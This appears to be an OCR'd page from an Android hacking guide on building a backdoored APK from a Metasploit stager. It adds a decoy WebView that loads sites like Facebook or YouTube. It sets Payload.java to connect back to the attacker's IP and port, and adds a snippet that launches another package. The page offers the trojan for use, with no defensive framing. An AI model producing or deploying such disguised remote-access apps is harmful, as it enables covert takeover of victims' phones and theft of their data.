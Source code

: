 # Hacking for Android

We need to add this code to the file: *hbox-android000011-ramixter* $\rightarrow$ *app* $\rightarrow$ *src* $\rightarrow$ *main* $\rightarrow$ *res* $\rightarrow$ *layout* $\rightarrow$ **activity_main.xml**

```xml
<WebView  
    android:id="@+id/webview"
    android:layout_width="fill_parent"
    android:layout_height="fill_parent" />
```

We need to add this code to the file: *hbox-android000011-ramixter* $\rightarrow$ *app* $\rightarrow$ *src* $\rightarrow$ *main* $\rightarrow$ *java* $\rightarrow$ *stage* $\rightarrow$ *metasploit* $\rightarrow$ *com* $\rightarrow$ *backdoredapk* $\rightarrow$ **MainActivity.java**:

```java
import android.webkit.WebView;
```

```java
setContentView(R.layout.activity_main);
        WebView webView = (WebView) findViewById(R.id.webview);
        webView.getSettings().setJavaScriptEnabled(true);
        webView.loadUrl("<MY_LINK>");
```

and we will have to replace <MY_LINK> with the link we want to which the application redirects us, for example: https://www.facebook.com/, https://www.youtube.com/, https://www.google.com/, etc.

We need to change this line in the file: *hbox-android000011-ramixter* $\rightarrow$ *app* $\rightarrow$ *src* $\rightarrow$ *main* $\rightarrow$ *java* $\rightarrow$ *stage* $\rightarrow$ *metasploit* $\rightarrow$ *com* $\rightarrow$ *backdoredapk* $\rightarrow$ **Payload.java**:

```java
public static final String URL = "ZZZZtcp://<MY_IP>:<PORT>"
```

> this line refers to our attacking machine, for example Kali or Linux, where `<MY_IP>` will be the ip address of my attacking machine. And `<PORT>` will be the port that we have configured.

**Once the changes are finished we will proceed to compile the APK again.**

# APK Easy Tool

```java
Intent launchIntent = getPackageManger().getLaunchIntentForPackage("<MY_PACKAGE>");startActivity(launchIntent);
```
